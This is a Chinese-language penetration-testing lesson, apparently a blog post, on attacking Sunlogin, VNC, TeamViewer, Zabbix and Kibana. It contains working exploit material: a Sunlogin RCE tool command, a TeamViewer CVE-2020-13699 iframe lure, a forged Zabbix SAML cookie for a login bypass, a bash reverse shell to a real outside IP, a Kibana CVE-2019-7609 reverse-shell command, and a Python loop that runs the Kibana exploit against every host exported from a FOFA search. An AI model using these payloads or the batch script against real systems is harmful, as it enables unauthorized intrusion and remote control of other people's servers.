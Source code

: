 ![1649998514042-2f6e02d3-4d2d-489e-b142-207bac995a38.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913134330955-1473316938.png)

```plain
#知识点：
1、远程控制-第三方应用安全
2、三方应用-向日葵&VNC&TV
3、设备平台-Zabbix&Kibana漏洞

#章节内容：
常见服务应用的安全测试：
1、配置不当-未授权访问
2、安全机制-特定安全漏洞
3、安全机制-弱口令爆破攻击

#前置知识：
应用服务安全测试流程：见图
1、判断服务开放情况-端口扫描&组合应用等
2、判断服务类型归属-数据库&文件传输&通讯等
3、判断服务利用方式-特定漏洞&未授权&弱口令等
```

- 远程控制-向日葵&Vnc&Teamviewer

向日葵

```plain
使用工具xrkRce.exe
项目地址：https://github.com/Mr-xn/sunlogin_rce


使用：
xrkRce.exe -h 192.168.233.140 -t scan
xrkRce.exe -h 192.168.233.140 -t rce -p 49516 -c "ipconfig"
```

![1650072356940-0eb5c14d-27bc-420c-927a-a0e063c5d924.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913134406732-1656937184.png)

Vnc

```plain
在使用的过程中有两个问题：
在security中有设置选项，这个就是设置安全的。
如果设置为none，则就不需要密码就可以直接连接这个主机

安全中有几种模式：Windows password，VNC password，None
```

![1650071340784-1263bf57-7610-47bd-89fd-3e943839a045.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913134406661-688533523.png)

```plain
用客户端去连接这台主机，并不用输入账号密码，就可以直接连接

也可在fofa中搜：app="VNC"&port="5900"

这个密码是可以参加的，在hydra中是支持这个vnc猜解的。没有账号。
```

![1650071702408-ad209eff-64bb-4727-95ef-1a08f487f7ed.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913134407423-506499371.png)

Teamviewer

```plain
这个类似于网站钓鱼，需要管理员访问特定的地址（我们构造的）

构造的html代码：
<!DOCTYPE html>
<html>
<head>
    <title>cve-2020-13699</title>
</head>
<body>
    <p>Welcome to xiaodi!</p>
    <iframe style="height:1px;width:1px;" src='teamviewer10: --play \\attacker-IP\share\fake.tvs'></iframe>
</body>
</html>


当管理员去访问：http://192.168.233.1:8081/web/test.html
这个时候就会自动运行这个软件。

teamviewer10: --play \\attacker-IP\share\fake.tvs是执行命令，如果要执行什么就可以进行修改完成测试。
```

![1650080710515-273178af-9f14-4cb9-aec7-e9a4a815f90d.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913134407921-649024698.png)

- 设备平台-Zabbix-CVE-2022-23131

```plain
Zabbix 是由Alexei Vladishev 开发的一种网络监视、管理系统，基于 Server-Client 架构。是一款服务器监控软件，其由server、agent、web等模块组成，其中web模块由PHP编写，用来显示数据库中的结果。默认端口：10051
为了更好的维护服务器，在蓝队的使用的比较多。


Zabbix CVE-2022-23131 登录绕过漏洞复现
https://github.com/L0ading-x/cve-2022-23131
20.188.
搜索：app="ZABBIX-监控系统"


手工演示：https://www.cnblogs.com/backlion/p/15958470.html
打开网站，点击检查元素，在点击（SAML）
```

![1650081645004-1ffb4151-23eb-414a-a8a4-1e4f6b14dbb7.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913134407281-543545589.png)

```plain
抓取数据包，数据包里面有cookie
197.129/
zbx_session=eyJzZXNzaW9uaWQiOiJjMzYzNThhZDQ4ZjM3ODRmMjg2ZWI1N2E2N2QyZjMwMSIsInNpZ24iOiJDcnFaXC92dUpkOHg2bjB2cWI2R1BTZElkdG93RGtoNnNmOE9cL2ZiVXI2SXkxcjZlXC92MWM2Z0wwbW1Gb2xaN3NWenA4RGUwWUt1NWJQWFwvT05waHRuWEE9PSJ9; path=/; domain=xxx; HttpOnly
```

![1650081858089-f532001a-ee51-44c4-a57e-1c3dff7462a0.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913134406881-1248824718.png)

```plain
对cookie的值进行解码：{"sessionid":"c36358ad48f3784f286eb57a67d2f301","sign":"CrqZ\/vuJd8x6n0vqb6GPSdIdtowDkh6sf8O\/fbUr6Iy1r6e\/v1c6gL0mmFolZ7sVzp8De0YKu5bPX\/ONphtnXA=="}

然后对这个值进行组合：{"saml_data":{"username_attribute":"Admin"},{"sessionid":"c36358ad48f3784f286eb57a67d2f301","sign":"CrqZ\/vuJd8x6n0vqb6GPSdIdtowDkh6sf8O\/fbUr6Iy1r6e\/v1c6gL0mmFolZ7sVzp8De0YKu5bPX\/ONphtnXA=="}

然后在进行base64编码，放到cookie里就可以实现了：eyJzYW1sX2RhdGEiOnsidXNlcm5hbWVfYXR0cmlidXRlIjoiQWRtaW4ifSx7InNlc3Npb25pZCI6ImMzNjM1OGFkNDhmMzc4NGYyODZlYjU3YTY3ZDJmMzAxIiwic2lnbiI6IkNycVpcL3Z1SmQ4eDZuMHZxYjZHUFNkSWR0b3dEa2g2c2Y4T1wvZmJVcjZJeTFyNmVcL3YxYzZnTDBtbUZvbFo3c1Z6cDhEZTBZS3U1YlBYXC9PTnBodG5YQT09In0=
```

![1650082591354-c0cf9470-f9dd-45f1-8be0-9cfd74f5ce69.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913134406967-554594161.png)

```plain
然后重新点击登录，就可以完成测试，直接进入了后台。但是这里我没有成功，不知道是不是获取的cookie值不对。

也可以直接用工具：G:\python38\python.exe cve-2022-23131.py http://xxxx Admin
```

![1650083393179-83e7d9d8-4a83-42e7-a8a0-93f2559ea96e.jpeg](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913134407198-370275076.jpg)

```plain
获得cookie值：decode_payload: {"saml_data": {"username_attribute": "Admin"}, "sessionid": "ebaf06e35b9ecce56355d74c9f7aa82b", "sign": "BrvvCJyqu0vrfM9zx8F/CSCZwqaYlSqLSQ8R1ODssHisRyLpUmJJK2nglpciJs7Lzp8De0YKu5bPX/ONphtnXA=="}
zbx_signed_session: eyJzYW1sX2RhdGEiOiB7InVzZXJuYW1lX2F0dHJpYnV0ZSI6ICJBZG1pbiJ9LCAic2Vzc2lvbmlkIjogImViYWYwNmUzNWI5ZWNjZTU2MzU1ZDc0YzlmN2FhODJiIiwgInNpZ24iOiAiQnJ2dkNKeXF1MHZyZk05eng4Ri9DU0Nad3FhWWxTcUxTUThSMU9Ec3NIaXNSeUxwVW1KSksybmdscGNpSnM3THpwOERlMFlLdTViUFgvT05waHRuWEE9PSJ9

修改完成后，点击（SAML）就能进行登录了。
```

![1650083598035-54856d3b-dcd1-4a6e-baec-4da1033fba37.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913134407097-169340056.png)

```plain
后续利用：提权等等

在功能点中（administrator）下有一个script，点击create script（创建一个脚本）
写一个反弹命令的脚本bash -i >& /dev/tcp/175.178.151.29/5566 0>&1

在Monitoring中有一个Maps，选中他监控的主机，然后选中刚刚添加的脚本
在服务器上监听这个端口执行获取权限。
CVE-2017-2824 
利用条件比较苛刻，需要登录进行设置一个东西才能实现。
CVE-2020-11800
```

- 设备平台-Kibana-CVE-2019-7609

```plain
Kibana为Elassticsearch设计的一款开源的视图工具。其5.6.15和6.6.1之前的版本中存在一处原型链污染漏洞，利用漏洞可以在目标服务器上执行任意代码。默认端口：5601

fofa：port="5601"

参考：https://blog.csdn.net/zy15667076526/article/details/109706962

可以直接利用到工具：https://github.com/LandGrey/CVE-2019-7609
在虚拟机中运行：
命令：python2 CVE-2019-7609-kibana-rce.py -u http://45.233.129.129:5601 -host 175.178.151.29 -port 5566 --shell
```

![1650085657219-d634bfe4-f511-4b69-b7e0-0290b21e2a0c.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913134407697-1897315934.png)

```plain
利用fofa来进行导出数据，然后写python脚本来进行批量测试，


import os
for ip in open('ips.txt'):
	ip=ip.strip()
	cmdline='python CVE-2019-7609-kibana-rce.py -u http://%s:5601 -host 175.178.151.29 -port 5566 --shell'%ip
	print(cmdline)
	os.system(cmdline)
	#print(ip)


然后再用python3去运行这个脚本，就可以完成测试
```

![1650086686542-8919f80b-6ddf-473b-82e9-6864136fb914.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913134407253-2009915923.png)